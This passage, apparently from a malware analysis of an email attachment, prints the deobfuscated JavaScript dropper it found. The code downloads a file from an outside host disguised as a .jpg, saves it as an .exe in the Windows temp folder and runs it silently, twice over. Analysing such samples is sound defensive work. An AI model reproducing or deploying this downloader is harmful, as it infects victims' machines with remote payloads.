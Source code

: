 ![The malicious email attachment](images/zip_info-2.png)

After deobfuscation of the file, we got this code:

```javascript
function dl(fr, fn, rn)
{
var ws = new ActiveXObject("WScript.Shell");
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + fn;
var xo = new ActiveXObject("MSXML2.XMLHTTP");
xo.onreadystatechange = function (){    if (xo.readyState === 4){      var xa = new ActiveXObject("ADODB.Stream");
xa.open();
xa.type = 1;
xa.write(xo.ResponseBody);
xa.position = 0;
xa.saveToFile(fn, 2);
xa.close();
};
}  ;
try {
xo.open("GET", fr, false);
xo.send();
if (rn > 0)
{
ws.Run(fn, 0, 0);
};
} catch (er){  }  ;
}dl("http://22072014b.com/images/global1.jpg", "16477935.exe", 1);dl("http://22072014b.com/images/global1.jpg", "89555869.exe", 1);
```
